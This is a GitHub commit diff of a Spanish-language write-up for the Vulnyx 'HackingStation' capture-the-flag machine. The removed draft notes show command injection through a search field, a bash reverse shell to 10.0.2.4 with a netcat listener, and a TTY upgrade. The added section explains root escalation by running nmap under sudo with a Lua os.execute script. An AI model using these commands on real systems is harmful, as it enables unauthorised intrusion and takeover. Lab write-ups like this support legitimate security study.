

Before and after one commit to Koh4kU/Writeups, a Markdown page: Vulnyx/HackingStation/writeup.md, the part around one of its changes. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Update writeup.md hakcingstation

````diff
--- a/Vulnyx/HackingStation/writeup.md
+++ b/Vulnyx/HackingStation/writeup.md
@@ -85,51 +86,33 @@ $ reset xterm
 $ export TERM=xterm
 $ export SHELL=bash
 ```
-Recibimos una shell tratada.
-<!-- ~~Machine:
-	HackingStation:
-	netdiscover -r 10.0.2.0/24
-	nmap first
-	nmap services
-	Solo puerto 80, miramos la pág:
-		CVE apache 2.4.57 -> CVE-2023-31122
-		Dejamos ejecutando un dirb sobre el servicio, mientras examinamos a mano la web
-		Primer intento de xss con <script>alert("Hacked")</script>, no nos devuelve nada pero obtenemos un archivo en php que ejecuta un comando
-		Vemos el archivo php y parece ser una base de datos de exploit-db, si buscamos por ejemplo la versión de apache, nos aparecen diferentes entradas
-		Dentro de las entradas, aparece un "Apache + php - remote code execution + scanner"
-			https://www.exploit-db.com/exploits/29316
-		Al saber que es php y no ver un tratamiento en principio de la entrada, vamos a probar a ejecutar un ls
-			apache 2.4.57;exec("ls")
-			Sin exito
-		Vamos al dirbuster y vemos que hay una página a la que podemos acceder:
-			10.0.2.6/javascript/jquery/jquery
-		Seguimos probando por la parte del input, esta vez simplemente con bash
-			apache 2.4.57;whoami
-			Nos responde e server devolviendonos el usuario con el que se ejecuta esto "hacker". Hecho esto vamos a mandarnos una reverse shell
-				nc -nlvp 443
-				Ejecutamos en el botón o con un curl la reverse shell en bash:
-					bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'
-			Estamkos dentro, vamos a hacer una conversion de tty
-				script /dev/null -c bash
-				ctrl+z
-				stty raw -echo;fg
-				reset xterm
-				export TERM=xterm
-				export SHELL=bash
-		Escalamos privilegios:
-			id (Poca información)
-			sudo -l
-				Vemos que tenemos un binario "nmap" en /usr/bin/nmap el que podemos ejecutar usar con sudo
-				sudo /usr/bin/nmap 127.0.0.1
-				Vemos que tiene ssh activado, pero en nuestro scan no nos aparecía. Esto es debido a que estará de forma interna. El uso
-				es el usual de nmap.
-				Sabemos que con nmap, podemos ejecutar scripts, vamos a intentar crear de alguna manera un script que nos devuelva una shell como root.
-				Para eso buscamos y encontramos GTFO bins, dentro de ella podemos encontrar una entrada a nmap. Vemos que con una version de nmap inferior
-				a la que tiene el sistema, podríamos haber iniciado una shell interactiva con: nmap --interactive. Pero nuestra version supera a las vulnerables
-				En vez de usar una sh como nos indica en el GTFObins, vamos a intentar que nos devuelva una bash:
-					BASH=$(mktemp)
-					echo 'os.execute("/bin/bash")' > $BASH
-					sudo nmap --script=$BASH
-				Tenemos acceso como root. Aunque no aparezca cuando escribimos, el comando se ejecuta. Para hacerlo más comodo podemos enviarnos
-				una reverse shell como root, o activar ssh y establecer por ahí una conexión (vemos como de verdad tiene ssh abierto pero solo en modo
-				escucha). De todas formas en el home de root, tenemos su flag~~
+Recibimos una shell tratada. Una vez hecho esto, podemos buscar la flag del usuario hacker, la cual estará en su directorio home: */home/hacker/user.txt*.
+~~imagen user flag~~
+### Privilege escalation ###
+Una vez tenemos el accesso con un usuario sin privilegios aparentes, toca escalar a root para obtener el control total de la máquina. Empezamos visualizando los permisos propios del usuario, sus grupos, si tiene un crontab asociado y posibles archivos con permisos SUID/GUID que nos permitan escalar, pero no vemos nada aparentemente. Vamos a listar si el usuario tiene algún permiso a nivel de *sudo* y vemos que puede ejecutar como root un binario */usr/bin/nmap*.
+```shell
+$ sudo -l
+```
+~~Imagen captura sudo -l~~
+Probamos a ejecutar el comando y vemos que tiene un funcionamiento como nmap. Podemos de hecho, realizar un escaneo a localhost y poder ver servicios levantados solo de forma interna.
+```shell
+$ sudo nmap 127.0.0.1
+```
+~~nmap 127.0.0.1~~
+Observamos que nos aparece ssh abierto. Este servicio aunque salga abierto, no es accesible de forma externa a la máquina, tal y como vimos en los primeros escaneos realizados de forma remota. Esto simplemente es una curiosidad, no nos ayudará a escalar o comprometer más la máquina.
+Si recordamos, nmap se puede implementar con scripts, por lo que podemos intentar ejecutar algún script propio mediante nmap y que nos devuelva una shell como root. Esto debido a que como podemos ejecutar nmap como root, si conseguimos que nmap ejecute una shell mediante un script, nos devolverá una shell con el usuario que ejecuta nmap, root. Haciendo una búsqueda para ver cómo crear scripts *.lua* propios y ejecutarlos con nmap, nos topamos con una web llamada **GTFOBins**, la cual es un repositorio de diferentes binarios a ejecutar en entornos en los que haya pocos recursos.
+~~Imagen GFTObins~~
+Tenemos una entrada para nmap y bajando, encontramos una sección para ejecutar una shell mediante nmap. Hay dos formas:
+- nmap --interactive: Solo entre las versiones 2.02 a 5.21.
+- *Input echo is disabled*:
+Debido a que nuestra versión es 7.x, nos queda probar la segunda opción. Esta opción consiste en crear un temporal que contenga la sentencia *os.execute()* que nos permite ejecutar comandos del sistema, de esta forma, podemos intentar ejecutar una shell.
+```shell
+$ BASH=$(mktemp)
+$ echo 'os.execute("/bin/bash")' > $BASH
+$ sudo nmap --script=$BASH
+```
+~~Captura ejecución nmap con sudo y obtencion de root~~
+Hemos conseguido obtener una shell como root. Una vez hecho esto, tenemos completo control del sistema. Nos spawnea una shell en la que no nos aparece lo que escribimos, para recibir una shell en condiciones podríamos ejecutarnos una reverse shell y captarla como hemos hecho en pasos anteriores, activar de forma externa ssh y entrar mediante una clave pública... etc. Nosotros lo que vamos a obtener ahora es la flag de root, la cual se encuentra en */root/root.txt*.
+~~Imagen obtencion root.txt~~
+### Adicional ###
+Si recordáis, en la parte de enumeración del activo, habíamos ejecutado un dirbuster el cual no nos ha hecho falta para poder comprometer el objetivo. De todas formas, este dirbuster nos identifica una ruta en el servicio web que nos lleva a una librerñia de jQuery. En principio, no he encontrado nada interesante en esa ruta: *http://10.0.2.6:80/javascript/jQwery/jQuery*.
````
Also changed, not shown: other parts of Vulnyx/HackingStation/writeup.md (+1 -0 lines).
